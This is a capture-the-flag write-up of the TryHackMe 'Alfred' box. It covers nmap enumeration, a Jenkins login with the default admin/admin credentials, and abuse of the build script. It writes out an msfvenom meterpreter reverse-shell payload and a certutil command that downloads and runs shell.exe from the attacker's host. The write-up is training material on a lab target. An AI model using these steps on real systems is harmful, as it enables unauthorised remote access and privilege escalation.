 ```yaml
---
title: "THM - Alfred"
date: 2021-02-11T14:26:15+01:00
categories: ["hacking", "write-ups"]
tags: [THM]
featuredImage: "/images/2021/02/Alfred_Logo.png"
---
```

Without further ado, let's get started and see what this box is made of!

## Recon

From the box logo and description we can discover that :

* Target runs Windows ;
* Target runs Jenkins.

Let's go!

## Enum

Let's start a basic nmap scan :

```text
sudo nmap -T4 -A -p- -oA nmap $target_ip
```

Unfortunately, nmap will complain that `Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn`.

No problem, let's fire our scan a bit differently :

```text
sudo nmap -T4 -A -p- -Pn -oA nmap $target_ip
```

This time, it will work :

```text
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-11 13:57 CET
Nmap scan report for $target_ip
Host is up (0.034s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2020-10-02T14:42:05
|_Not valid after:  2021-04-03T14:42:05
|_ssl-date: 2021-02-11T12:59:27+00:00; +12s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1|Vista|Phone (90%)
OS CPE: cpe:/o:microsoft:windows_server_2008 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 Professional or Windows 8 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 11s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.99 ms 10.11.0.1
2   34.29 ms $target_ip

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.35 seconds
```

We discover the following :

* A web server running on port 80 : Microsoft IIS httpd 7.5 ;
* Another web server on port 8080 (probably Jenkins backend / admin area) : Jetty 9.4.z-SNAPSHOT ;
* RDP service running on port 3389.

![Jenkins Admin Login Page](/images/2021/02/jenkins_login.png)

Since we found a few web servers, I'll fire `nikto` and `dirbuster` on them in order to see if we find anything interesting.

Our various scans and manually browsing confirmed that we are up against a `Windows machine` running `Jenkins`.

While our extra scans our running, we can search if any known vulnerability applies to the services we found. For this, I recommend using `searchsploit` if you want to stay in the CLI, or search engines for a more graphical approach.

Unfortunately, we don't find anything relevant nor obvious. Let's see how we can attack this box.

## Exploitation

Since we haven't found anything huge, we'll try to login to the admin panel using default and / or well known credentials. This is a brute force attack!

It happens, that we are lucky, some lazy admin used `admin` // `admin` as credentials! It was my first try, I didn't even had to fire `Burp Intruder`, great!

![Jenkins Admin Panel](/images/2021/02/jenkins_admin.png)

From here, I am thinking there may be a way to upload a malicious file from the admin panel, in order to gain access to the system (spoiler: nope).

We also found one user and it's password : maybe this is a system user (which I doubt).

By browsing the Jenkins area (yes, recon again!), we notice the following :

* Jenkins version : Jenkins 2.190.1 core and libraries

then :

```text
Started by user admin
Running as SYSTEM
Building in workspace C:\Program Files (x86)\Jenkins\workspace\project
[project] $ cmd /c call C:\Users\bruce\AppData\Local\Temp\jenkins8034204804437582227.bat

C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>exit 0 
Finished: SUCCESS
```

It shows us that a build script is running and that it is just running the `whoami` command as user `bruce`. This is not huge, but it migh give us a shell as Bruce, and probably its flag too!

So, let's try to modify the build script in order to get Bruce's flag, that should be easy.

By simple browsing into the project and configuring the project, we'll try to get the flag like so :

![Jenkins Admin Panel](/images/2021/02/jenkins_config_build.png)

Now, we build it and check the logs :

![Jenkins User Flag](/images/2021/02/jenkins_user_flag.png)


And it worked! As I spoiled, I was wrong. No file upload from here, but an indirect shell!

### PrivEsc

Ok, now that we have confirmed that we can run commands as Bruce on the system, we have to think of a way to get a shell. This part shouldn't be hard : I am thinking like downloading a malicious shell then running it via the build system. However, that alone, won't help us much... it will make it easier to have a direct shell, but it won't suffice to get full control.

However, one easy solution would be to get a meterpreter shell and use msfconsole...

Before going any further, I will run another build doing a `dir "C:\"`. I just want to check the system architecture (be sure check my [cheatsheets](https://www.masoopy.com/cheatsheets/) if you are lost during a phase). It might prove useful later on, if I want to craft something with `msfvenom`.

Since we know our arch is 64 bits, let's craft our shell :

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=$attacker_ip LPORT=10443 -f exe > shell.exe`

Now we run a basic HTTP server from our attacking machine to host the shell :

`sudo python2 -m SimpleHTTPServer 80`

On our target machine, we edit the build script so that :

1. it downloads our malicious file : `certutil -urlcache -f http://$attacker_ip/shell.exe C:\Users\Bruce\Desktop\shell.exe`
2. it runs it : `C:\Users\Bruce\Desktop\shell.exe`

Saving the changes, and back on our attacking machine, we run `msfconsole` and `use exploit/multi/handler`, set the correct options. In our case, we listen on port 10443.

Back again on the Jenkins' machine, hit the build button, a meterprter shell as Bruce should now open :

![Jenkins meterpreter](/images/2021/02/jenkins_meterpreter.png)

Thanks to power of metasploit, a simple `getsystem` will give us root:

![Jenkins root](/images/2021/02/jenkins_user_root.png)

NB : this is where MetaSploit is clearly TOO powerful! I gained `SYSTEM`, using only one command... I have no idea what went on behind the scenes! I clearly need to look for a manual way to do that. But this will be for another time.


Since we are "root", let's search for the flag :

```text
search -f root.txt
```
```text
Found 1 result...
    c:\Windows\System32\config\root.txt (70 bytes)
```

then : 

```text
cat "c:\Windows\System32\config\root.txt"
```

![Jenkins Root Flag](/images/2021/02/jenkins_root_flag.png)


## Conclusion

This was a fun box, pretty straight forward, where a simple misconfiguration, led to a fully remote access... again!